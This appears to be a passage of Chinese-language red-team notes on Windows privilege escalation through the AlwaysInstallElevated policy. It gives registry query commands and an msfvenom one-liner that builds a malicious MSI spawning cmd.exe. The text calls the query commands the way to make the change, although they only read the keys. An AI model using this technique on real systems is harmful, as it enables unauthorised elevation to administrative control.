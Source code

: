 ![](../../../../assets/img/Security/RedTeam/后渗透/权限提升/4.png)

![](../../../../assets/img/Security/RedTeam/后渗透/权限提升/5.png)

**利用 AlwaysInstallElevated 提权**

利用组策略可以实现权限提升, 开启 AlwaysInstallElevated 特权安装功能
1. 打开组策略编辑器 (win+r,gpedit.msc)
2. 用户配置 -> 管理模板 ->Windows 组件 ->Windows Installer-> 永远以高特权进行安装 -> 选择启用
3. 计算机配置 -> 管理模板 ->Windows 组件 ->Windows Installer-> 永远以高特权进行安装 -> 选择启用

其实就是修改了两处注册表,命令行下进行上述操作
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

**使用 msf 生成 msi**

本地版本
```
msfvenom -p windows/exec CMD=cmd.exe -f msi > test.msi
```
